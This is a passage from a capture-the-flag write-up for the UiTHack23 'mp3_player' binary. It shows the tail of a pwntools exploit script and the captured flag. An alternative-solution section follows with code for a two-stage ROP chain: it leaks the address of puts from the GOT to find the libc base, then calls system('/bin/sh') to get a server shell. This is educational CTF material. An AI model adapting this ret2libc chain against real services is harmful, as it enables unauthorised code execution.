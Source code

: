 ```python
p.recvuntil(b"ABBA")
p.sendline(payload)
p.interactive()
```
{: file="exploit.py" }

```
UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}
```

## Alternative solution: Shell on the server
You can get a shell on the server running the mp3_player binary using the same technique as in the `tamagotchi` challenge.

The exploitation method used to get a shell on the server for this challenge is the same as for the __tamagotchi__ challenge, and concepts are described more thoroughly in that writeup. <br>
As a short summary, we first find the libc version used by leaking the address of the puts-function from the got-table (global offset table), after we have found the offset to the `rip`-register
```python
offset = 40

# First ROP-chain to leak puts address in libc
rop = ROP(elf)
rop.raw(b"\x90"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["main"])

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())

# Parse the leaked address, and set libc base address
p.recvuntil(b"song\n")
puts_leak = u64(p.recvline().rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
```
{: .nolineno }

With the address of `puts` we can figure out the libc-version being used by the server (same libc as used in tamagotchi, and is the libc used by docker for 20.04 images).

Knowing the libc-version we can then call `system('/bin/sh')` to get shell on the server, with a second rop-chain (note that we in the first rop-chain redirected the program execution back to the *main* function so that we could send out second rop-chain).
```python
libc.address = puts_leak - libc.symbols["puts"]

# Second ROP-chain to get shell on the server
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"\x90"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())
p.interactive()
```
{: .nolineno }

